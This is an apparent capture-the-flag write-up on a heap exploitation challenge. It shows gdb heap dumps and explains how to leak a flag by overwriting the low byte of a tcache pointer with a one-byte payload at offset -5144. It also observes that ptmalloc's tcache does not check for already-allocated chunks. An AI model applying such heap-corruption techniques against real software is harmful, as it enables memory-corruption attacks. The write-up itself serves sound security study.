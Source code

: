 ```bash
    [0x00000000006036e0     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x603770, size=0x90, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x0000000000603770     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x603800, size=0x90, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x0000000000603800     00 00 00 00 00 00 00 00 21 20 59 6f 75 72 20 66    ........! Your f]
Chunk(addr=0x603890, size=0x90, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x0000000000603890     00 38 60 00 00 00 00 00 68 69 73 20 77 6f 6e 27    .8`.....his won']
Chunk(addr=0x603920, size=0x1f6f0, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  top chunk
```

0x603800 seems like a good candidate. Even better, it was freed (if you follow the linked list that is the tcache_entry bin it goes from 0x603890 to 0x603800) and thus can "legally" be reallocated. It also contains the flag, as shown

```bash
gef➤  x/10gx 0x603800
0x603800:       0x0000000000000000      0x662072756f592021
0x603810:       0x203a73692067616c      0x414c465f54534554
0x603820:       0x0000000000000047      0x0000000000000000
0x603830:       0x0000000000000000      0x0000000000000000
0x603840:       0x0000000000000000      0x0000000000000000
```

whereby the bytes at 0x603800 + 8 are the flag string

```bash
gef➤  x/s 0x603808
0x603808:       "! Your flag is: TEST_FLAG"
```

Locally, I provided a flag.txt file containing the text "TEST_FLAG". Recall that the printing of the user data portion of the chunk is offset by +0x10, so we would be leaking

```bash
gef➤  x/s 0x603810
0x603810:       "lag is: TEST_FLAG"
```

which still works. 

Lastly, we note that writing into 0x602088 (specifically, an offset of -5144 from the base write addr) works fine because we want to overwrite LSB of the address stored at 0x602088, which is exactly the (first) byte in order at address 0x602088 for little endian. 

## Payload

The payload is thus simply the offset given by `-5144`, followed by the byte we want to write into that address, which is `\x00`. 

## Side note

Testing with gdb found that overwriting the tcache entry with the address of an already-allocated chunk still works. 

This implies that `ptmalloc` does not check for if a chunk is already allocated if pulling from tcache - it assumes that it is a freed chunk. 
